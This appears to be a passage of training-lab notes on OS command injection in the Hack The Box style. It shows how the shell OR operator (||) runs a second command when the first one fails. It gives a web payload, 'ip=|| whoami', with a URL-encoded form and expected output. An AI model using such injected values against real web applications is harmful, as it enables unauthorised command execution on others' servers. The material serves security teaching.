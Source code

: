 **When First Command Succeeds:**
```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```

**Analysis:** 
- Only `ping` command executes because it succeeds (exit code 0)
- `||` operator prevents second command execution
- `whoami` never runs due to successful first command

### Failure Scenario Testing

**Intentionally Breaking First Command:**
```bash
21y4d@htb[/htb]$ ping -c 1 || whoami

ping: usage error: Destination address required
21y4d
```

**Analysis:**
- `ping -c 1` fails (missing destination)
- Returns non-zero exit code
- `||` operator triggers second command execution
- `whoami` executes and returns `21y4d`

### Web Application Exploitation

**Failure-Based Payload:**
```http
# Intentionally break first command
ip=|| whoami

# URL-encoded
ip=%7c%7c%20whoami
```

**Expected Result:**
```html
ping: usage error: Destination address required
www-data
```

**Advantages of OR Operator:**

**✅ Cleaner Output:**
- Only injected command output when first fails
- Reduces noise in response
- Simpler result parsing
